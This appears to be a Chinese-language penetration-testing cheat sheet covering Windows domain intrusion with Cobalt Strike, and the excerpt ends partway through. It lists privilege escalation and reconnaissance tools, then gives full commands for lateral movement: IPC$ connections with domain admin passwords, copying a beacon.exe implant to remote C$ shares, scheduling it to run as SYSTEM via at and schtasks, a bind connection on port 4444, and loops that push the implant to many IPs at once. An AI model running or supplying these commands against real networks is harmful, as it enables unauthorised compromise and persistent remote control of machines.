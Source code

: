 1. 提权(CS)：

   ``` powershell
   web->system administrator->system
   ```

2. 收集(网络&用户&密码)：

   ``` powershell
   Ladon Adfinder BloodHound
   ```

3. 横向(ipc)

   ``` powershell
   [at] & [schtasks]
   
   #at < Windows2012
   
   net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad
   
   ministrator # 建立ipc连接：
   
   copy beacon.exe \\192.168.3.21\c$ #拷贝执行文件到目标机器
   
   at \\192.168.3.21 15:47 c:\beacon.exe  #添加计划任务
   
   #schtasks >=Windows2012
   
   net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
   
   ministrator # 建立ipc连接：
   
   copy beacon.exe \\192.168.3.32\c$ #复制文件到其C盘
   
   schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\beacon.exe /F #创beacon任务对应执行文件
   
   schtasks /run /s 192.168.3.32 /tn beacon /i #运行beacon任务
   
   schtasks /delete /s 192.168.3.21 /tn beacon /f#删除beacon任务
   ```

4. 上线（正向）

   ``` powershell
   创建监听器->beacon_bind_tcp->beacon.exe
   connect 192.168.3.32 4444
   ```

5. ``` powershell
   FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator
   
   FOR /F %%i in (ips.txt) do copy beacon.exe \\%%i\c$
   
   FOR /F %%i in (ips.txt) do schtasks /create /s %%i /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\beacon.exe /F
   